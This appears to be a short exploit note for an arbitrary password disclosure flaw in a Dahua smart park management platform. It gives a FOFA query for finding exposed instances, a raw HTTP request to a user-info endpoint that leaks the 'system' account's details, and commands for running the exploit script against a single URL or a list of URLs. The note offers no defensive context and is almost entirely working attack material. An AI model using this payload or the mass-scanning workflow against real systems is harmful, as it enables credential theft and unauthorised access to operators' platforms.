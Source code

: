 fofa

```markdown
body="src=/WPMS/asset/common/js/jsencrypt.min.js"
```

payload

```markdown
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
Host: xxxxxxxxx
Cookie: JSESSIONID=D99F6DAEA7EC0695266E95A1B1A529CC
```

命令

```markdown
python3 大华智慧园区管理平台存在任意密码泄露漏洞.py -u url
python3 大华智慧园区管理平台存在任意密码泄露漏洞.py -f url.txt
```

